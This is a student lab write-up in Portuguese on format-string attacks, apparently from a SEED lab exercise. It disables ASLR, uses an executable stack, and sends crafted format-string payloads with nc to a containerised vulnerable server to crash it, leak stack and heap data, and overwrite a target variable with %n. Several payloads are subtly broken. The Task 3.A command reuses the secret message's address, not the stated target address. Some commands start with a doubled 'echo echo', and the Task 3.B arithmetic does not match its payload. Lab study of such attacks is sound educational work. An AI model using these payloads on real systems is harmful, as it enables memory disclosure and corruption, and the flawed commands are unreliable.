




# Trabalho realizado na Semana #7

## Environment Setup: Turning Off Countermeasures

Como os sistemas operativos atuais apresentam vários mecanismos de segurança que dificultam a exploração de um ataque format string, começamos por desativar algumas das proteções do sistema, nomeadamente, a randomização do espaço de endereços (que dificulta o cálculo de endereços necessários para o nosso ataque). 



Para além disso, como o nosso objetivo será injetar código na stack, o programa tem de ser compilado com `-z execstack`, para que a stack seja executável. 

## Task 1: Crashing the Program

Usamos dois terminais para inicializar dois containers, cada um correndo um servidor vulnerável. Começamos por enviar uma mensagem `hello` para o servidor através do terminal B:

```bash
$ echo hello | nc 10.9.0.5 9090
```

O output no terminal A foi o seguinte, onde vemos:
- Endereço do `buffer` de input
- Endereço da mensagem secreta
- Frame pointer da função `myprintf`
- Endereço inicial e final de uma variável `target`


### Exploração do ataque

Nesta tarefa, é-nos pedido para crashar o servidor manipulando o input fornecido pelo utilizador. Deste modo, recorremos ao `%s`:

```bash
$ echo '%s' | nc 10.9.0.5 9090
```

Como a própria format string é colocada na stask, `%s` vai buscar o endereço na posição imediatamente acima, tentando imprimir a string que está nesse endereço, o que calhou numa zona inválida, isto é, fora da memória virtual do processo:


## Task 2: Printing Out the Server Program’s Memory

O objetivo desta task é dar print a variáveis da memória do programa.

### Task 2.A: Stack Data

Para dar print à variável presente na stack, usamos o format specifier `%08x` para avançar o `va_list pointer` 4 bytes de cada vez (um endereço), de modo a que apontasse para a variável que queremos explorar. Assim, para calcular a distância entre a variável e o `va_list pointer` - o número de `%08x`, metemos **HERE** (48 45 52 45 em ASCII) no início e, quando este fosse impresso, saberíamos logo esta distância:

```bash
echo "HERE%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x" | nc 10.9.0.5 9090
```



Foram necessários 64 "%08x" para imprimir **HERE**, logo existem 63 endereços na stack entre o format string e o buffer.


### Task 2.B: Heap Data

Pelos prints das tarefas anteriores, verificamos que o endereço da mensagem secreta que pretendemos dar print é 0x080b4008. Estando perante uma máquina *small-indian*, a sua codificação em string será `\x08\x40\x0b\x08`. 

Da task 2.A, sabemos que a distância entre o `buffer de input` e o início do `va_list pointer` é de 63 endereços (63 "%08x").

Ora, para dar print da mensagem secreta, basta inserirmos o seu endereço no início, seguido de 63 "%08x", terminando com "%s", que irá ler deste endereço e retornar o valor escondido:

```bash
echo echo "\x08\x40\x0b\x08%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %s" | nc 10.9.0.5 9090
```

Por fim, obtemos o conteúdo da mensagem secreta:


## Task 3: Modifying the Server Program’s Memory

O objetivo desta tarefa é modificar o valor da variável `target`, cujo endereço é de `0x080e5068` e tem valor inicial igual a `0x11223344`.

### Task 3.A: Change the value to a different value

O format specifier `%n` escreve o número de caracteres que foram lidos até ao momento na memória. De facto, `%n` trata o valor apontado pelo `va_list pointer` como um endereço de memória, escrevendo para esse local. Desta forma, podemos usá-lo para alterar o valor de `target`.

A abordagem é muito semelhante à da task 2.B:
- escrever no início do endereço de memória de `target`
- escrever 63 "%08x" para o pointer avançar 63 endereços
- terminar com "%n" para alterar o valor no endereço de `target`

```bash
echo echo "\x08\x40\x0b\x08%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %n" | nc 10.9.0.5 9090
```



Verificou-se que o valor de `target` foi alterado para `0x000001fd` (509 em decimal), pelo que foram escritos 4 (endereço de `target`) + 63 x 8 ("%08x") + 1 (espaço branco) caracteres antes do `%n`.

### Task 3.B: Change the value to 0x5000

Para alterar o valor de `target` para 0x5000 (20480 em decimal), teremos que escrever 20480 caracteres antes de `%n`. Sendo que o endereço já ocupa 4 bytes e precisamos de 63 `%08x` para avançar o va_list pointer, ainda precisamos de 20480 - 4 - 63 x 8 = 19972 caracteres.

Assim, precisamos de `%.19972x` antes de `%n`:

```bash
echo echo "\x08\x40\x0b\x08%.19972x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x%08x %n" | nc 10.9.0.5 9090
```



